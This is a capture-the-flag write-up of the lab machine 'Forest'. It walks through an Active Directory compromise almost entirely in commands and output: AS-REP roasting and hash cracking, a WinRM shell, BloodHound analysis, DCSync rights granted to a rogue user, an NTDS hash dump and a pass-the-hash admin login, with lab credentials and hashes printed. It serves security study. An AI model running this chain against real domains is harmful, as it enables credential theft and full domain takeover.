







# Forest

```bash
TARGET=10.10.10.161
```

```bash
$ sudo nmap -v -sC -sV $TARGET                            
...
Scanning 10.10.10.161 [1000 ports]
Discovered open port 135/tcp on 10.10.10.161
Discovered open port 139/tcp on 10.10.10.161
Discovered open port 445/tcp on 10.10.10.161
Discovered open port 88/tcp on 10.10.10.161
Discovered open port 636/tcp on 10.10.10.161
Discovered open port 3268/tcp on 10.10.10.161
Discovered open port 389/tcp on 10.10.10.161
Discovered open port 3269/tcp on 10.10.10.161
Discovered open port 593/tcp on 10.10.10.161
Discovered open port 464/tcp on 10.10.10.161
...
PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-05-15 05:44:41Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-05-14T22:44:47-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-05-15T05:44:49
|_  start_date: 2024-05-15T05:41:51
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m49s
```

```bash
$ ldapsearch -H ldap://$TARGET -x -s base rootDomainNamingContext ldapServiceName dnsHostName defaultNamingContext
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: rootDomainNamingContext ldapServiceName dnsHostName defaultNamingContext 
#

#
dn:
defaultNamingContext: DC=htb,DC=local
rootDomainNamingContext: DC=htb,DC=local
dnsHostName: FOREST.htb.local
ldapServiceName: htb.local:forest$@HTB.LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

```bash
$ ldapsearch -H ldap://$TARGET -x -b 'DC=htb,DC=local'
# extended LDIF
#
# LDAPv3
# base <DC=htb,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# htb.local
dn: DC=htb,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=htb,DC=local
instanceType: 5
whenCreated: 20190918174549.0Z
whenChanged: 20240515054141.0Z
subRefs: DC=ForestDnsZones,DC=htb,DC=local
subRefs: DC=DomainDnsZones,DC=htb,DC=local
subRefs: CN=Configuration,DC=htb,DC=local
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAOqNrI1l5QUq5WV+CaJoIcQ==
uSNChanged: 888873
name: htb
objectGUID:: Gsfw30mpJkuMe1Lj4stuqw==
...
```

[CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

```bash
$ cat /etc/hosts | grep 10.10.10.161
10.10.10.161    htb.local forest.htb.local forest
```

```bash
$ netexec ldap htb.local -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           [+] htb.local\: 
LDAP        10.10.10.161    389    FOREST           [*] Total records returned: 315
LDAP        10.10.10.161    389    FOREST           DC=htb,DC=local
LDAP        10.10.10.161    389    FOREST           CN=Users,DC=htb,DC=local
LDAP        10.10.10.161    389    FOREST           CN=Allowed RODC Password Replication Group,CN=Users,DC=htb,DC=local
LDAP        10.10.10.161    389    FOREST           CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
LDAP        10.10.10.161    389    FOREST           CN=Read-only Domain Controllers,CN=Users,DC=htb,DC=local
...
```

```bash
$ netexec ldap htb.local -u '' -p '' --admin-count          
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           [+] htb.local\: 
LDAP        10.10.10.161    389    FOREST           Read-only Domain Controllers
LDAP        10.10.10.161    389    FOREST           Administrator
LDAP        10.10.10.161    389    FOREST           krbtgt
LDAP        10.10.10.161    389    FOREST           Domain Controllers
LDAP        10.10.10.161    389    FOREST           Schema Admins
LDAP        10.10.10.161    389    FOREST           Enterprise Admins
LDAP        10.10.10.161    389    FOREST           Domain Admins
LDAP        10.10.10.161    389    FOREST           svc-alfresco
LDAP        10.10.10.161    389    FOREST           Service Accounts
LDAP        10.10.10.161    389    FOREST           Privileged IT Accounts
LDAP        10.10.10.161    389    FOREST           Account Operators
LDAP        10.10.10.161    389    FOREST           Administrators
LDAP        10.10.10.161    389    FOREST           Print Operators
LDAP        10.10.10.161    389    FOREST           Backup Operators
LDAP        10.10.10.161    389    FOREST           Replicator
LDAP        10.10.10.161    389    FOREST           Server Operators
```

```bash
$ enum4linux -U $TARGET | grep 'user:' | awk -F '[' '{print $2}' | awk -F ']' '{print $1}' | sort -u 
$331000-VK4ADACQNUCA
Administrator
andy
DefaultAccount
Guest
HealthMailbox0659cc1
HealthMailbox670628e
HealthMailbox6ded678
HealthMailbox7108a4e
HealthMailbox83d6781
HealthMailbox968e74d
HealthMailboxb01ac64
HealthMailboxc0a90c9
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxfd87238
krbtgt
lucinda
mark
santi
sebastien
SM_1b41c9286325456bb
SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb
SM_681f53d4942840e18
SM_75a538d3025e4db9a
SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b
svc-alfresco
```

```bash
$ impacket-GetNPUsers htb.local/ -usersfile users.list -format john -outputfile domain.hashes              
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:c39f8f657170d57d470b7fa4653a1643$8945e507f557bb3950e82d22bf29101fe178ece798fa6567cc245686f026cb35e19afac0471668d63a02a32bd06dfc793f33b4ad10da52df63868d883586ce718c0e400753706cb9ac1172b6afb96685e405fc2ab526636c2c1ac1b9aaa61a2a1cdc89389d1479753db814701f47af0f48727ee6c481a6cd60797f59720fa6881f61c854d8c86526d03c88c833fc9e016b9e0993911a6bf49e8c64e99b5600f0099fdb854895fcfbaa765696d391b5e940c5f1494a605886dd83f9ef22687ad4648ff36f40010349f8ea1830c386ba2857c1068bcab30a21c61ad57fcd6eabc2f809b17451ef
```

OR

```bash
$ netexec ldap htb.local -u users.list -p '' --asreproast output.txt
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:15dae2d636e843f07df3589ea8d30222$168bafa7d72fd87a1920d8148667619b14d57e5b4fc02a18183c42a8853b2647119fa94eb9f01ae7a120967bf6caecb6cc14a1278d28e9840ff5bb46aca1cfa72d754decaa31e72672fa9add035b8dbb3507e7b6df10c9bc1ca9b96dcc148c6fb277e765388bdbcd6a6df03d41386a7402198184973dd9b6db5111de65d83b1260180d9a0adc031248667003a00b3d14a5b7ec6be832e5e6f35de5bd8e7c56c9c4571acb1305d981ca03b176fddc5171405571f135cafe1a8451c54345c0b2405e4384e0d671367ab658f440be7f45a48f9787c57199f3dc255ee0d0e9ca550a882017e5c77d
```

```bash
$ hashcat -m18200 output.txt /usr/share/wordlists/rockyou.txt                                
hashcat (v6.2.6) starting
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:15dae2d636e843f07df3589ea8d30222$168bafa7d72fd87a1920d8148667619b14d57e5b4fc02a18183c42a8853b2647119fa94eb9f01ae7a120967bf6caecb6cc14a1278d28e9840ff5bb46aca1cfa72d754decaa31e72672fa9add035b8dbb3507e7b6df10c9bc1ca9b96dcc148c6fb277e765388bdbcd6a6df03d41386a7402198184973dd9b6db5111de65d83b1260180d9a0adc031248667003a00b3d14a5b7ec6be832e5e6f35de5bd8e7c56c9c4571acb1305d981ca03b176fddc5171405571f135cafe1a8451c54345c0b2405e4384e0d671367ab658f440be7f45a48f9787c57199f3dc255ee0d0e9ca550a882017e5c77d:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:15dae2d636e843...e5c77d
...
```

```bash
$ netexec winrm htb.local -u 'svc-alfresco' -p 's3rvice'    
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

| Username | Password |
|--|--|
| svc-alfresco | s3rvice |

```bash
$ evil-winrm -i htb.local -u 'svc-alfresco' -p 's3rvice'                             
Evil-WinRM shell v3.5
...

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ../Academy/AD/Tools/SharpHound.exe .
                                        
Info: Uploading /home/kali/Desktop/HTB/Forest/../Academy/AD/Tools/SharpHound.exe to C:\Users\svc-alfresco\Documents\.
                                        
Data: 1209000 bytes of 1209000 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ./SharpHound.exe
2024-05-15T01:11:40.9714773-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-05-15T01:11:40.9714773-07:00|INFORMATION|Initializing SharpHound at 1:11 AM on 5/15/2024
2024-05-15T01:11:41.5339803-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-05-15T01:11:42.2839809-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-05-15T01:11:42.4402320-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-05-15T01:11:42.4402320-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-05-15T01:12:12.5414641-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 40 MB RAM
2024-05-15T01:12:28.0055772-07:00|INFORMATION|Consumers finished, closing output channel
2024-05-15T01:12:28.0524532-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-05-15T01:12:28.3337076-07:00|INFORMATION|Status: 161 objects finished (+161 3.5)/s -- Using 53 MB RAM
2024-05-15T01:12:28.3337076-07:00|INFORMATION|Enumeration finished in 00:00:46.0528741
2024-05-15T01:12:28.4587073-07:00|INFORMATION|SharpHound Enumeration Completed at 1:12 AM on 5/15/2024! Happy Graphing!
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20240515011227_BloodHound.zip .
                                        
Info: Downloading C:\Users\svc-alfresco\Documents\20240515011227_BloodHound.zip to 20240515011227_BloodHound.zip
                                        
Info: Download successful!
```

```bash
$ sudo neo4j start
$ bloodhound &
```



`Find Shortest Paths to Domain Admins`



However, it seems we need the machine account of `Forest` to perform the DCSync.

We can try to see if we can leverage the other path to the domain.



It seems the `Account Operators` group has `GenericAll` permission on `Exchange Windows Permission` group.



We could also see this with `Transitive Object Control` from our user.



The members of the group `ACCOUNT OPERATORS@HTB.LOCAL` have `GenericAll` privileges to the group `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL`.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.



Lets see who are currently on the group.

```bash
$ netexec smb htb.local -u 'svc-alfresco' -p 's3rvice' --groups 'EXCHANGE WINDOWS PERMISSIONS'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [+] Enumerated members of domain group
SMB         10.10.10.161    445    FOREST           htb.local\Exchange Trusted Subsystem
```

Now, lets try to create a new user called `kali` and add it into this group.

```bash
$ net rpc user add kali 'P@55w0rd' --user 'HTB.LOCAL/svc-alfresco' --password 's3rvice' --ipaddress $TARGET --server 'Forest' --use-kerberos off --long --verbose
Added user 'kali'.
```

| Username | Password |
|--|--|
| svc-alfresco | s3rvice |
| kali | P@55w0rd |

```bash
$ net rpc group addmem 'EXCHANGE WINDOWS PERMISSIONS' 'kali' --user 'HTB.LOCAL/svc-alfresco' --password 's3rvice' --ipaddress $TARGET --server 'Forest' --use-kerberos off --long --verbose
```

```bash
$ net rpc group members 'EXCHANGE WINDOWS PERMISSIONS' --user 'HTB.LOCAL/svc-alfresco' --password 's3rvice' --ipaddress $TARGET --server 'Forest' --use-kerberos off --long --verbose      
S-1-5-21-3072663084-364016917-1341370565-1119 HTB\Exchange Trusted Subsystem 1
S-1-5-21-3072663084-364016917-1341370565-9601 HTB\kali 1
```

Now we have `WriteDacl` on the domain. The members of the group `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` have permissions to modify the DACL (Discretionary Access Control List) on the domain `HTB.LOCAL`. With write access to the target object's DACL, we can grant ourself any privilege you want on the object.



Lets use [DCSync](https://github.com/n00py/DCSync) to tool to give our user `DCSync` privilege on the domain.

For that we will need the `distinguishedname` of our user.

```bash
$ pywerview get-netuser -u'svc-alfresco' -p's3rvice' -t htb.local --username 'kali' --attributes 'distinguishedname'
distinguishedname: CN=kali,CN=Users,DC=htb,DC=local
```

Then we run `DCSync.py`.

```bash
$ /opt/DCSync/DCSync.py -dc htb.local -t 'CN=kali,CN=Users,DC=htb,DC=local' 'htb.local\kali:P@55w0rd'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=kali,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\kali account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User kali now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240515-223129.restore
```

Then we can confirm that `kali` has `DCSunc` on the domain.

```bash
$ netexec ldap htb.local -u 'kali' -p 'P@55w0rd' -M daclread -o TARGET_DN="DC=htb,DC=local" ACTION=read RIGHTS=DCSync
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           [+] htb.local\kali:P@55w0rd 
DACLREAD    10.10.10.161    389    FOREST           Be careful, this module cannot read the DACLS recursively.
DACLREAD    10.10.10.161    389    FOREST           Target principal found in LDAP (DC=htb,DC=local)
DACLREAD                                            ACE[9] info                
DACLREAD                                                ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD                                                ACE flags                 : None
DACLREAD                                                Access mask               : ControlAccess
DACLREAD                                                Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD                                                Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD                                                Trustee (SID)             : Domain Controllers (S-1-5-21-3072663084-364016917-1341370565-516)
DACLREAD                                            ACE[10] info                
DACLREAD                                                ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD                                                ACE flags                 : None
DACLREAD                                                Access mask               : ControlAccess
DACLREAD                                                Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD                                                Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD                                                Trustee (SID)             : kali (S-1-5-21-3072663084-364016917-1341370565-9601)
DACLREAD                                            ACE[99] info                
DACLREAD                                                ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD                                                ACE flags                 : None
DACLREAD                                                Access mask               : ControlAccess
DACLREAD                                                Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD                                                Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD                                                Trustee (SID)             : Administrators (S-1-5-32-544)
```

We can dump the whole `ntds` or we can get specific ones. In this case lets try to get only the hash from the `administrator`.

```bash
$ netexec smb htb.local -u 'kali' -p 'P@55w0rd' --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\kali:P@55w0rd 
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-05-15_223320.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-05-15_223320.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-05-15_223320.ntds | cut -d ':' -f1
```

We can see if we can log with it on winrm.

```bash
$ evil-winrm -i htb.local -u 'administrator' -H '32693b11e6aa90eb43d32c72a07ceea6' 
Evil-WinRM shell v3.5
...

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

## Exploit Chain

port scan: dc -> enum4linux: usernames -> ASREP Roasting & hashcat: svc-alfresco credential -> bloodhound -> create new user with specific group & add DCSync priviliege -> dump admin nthash -> admin priv
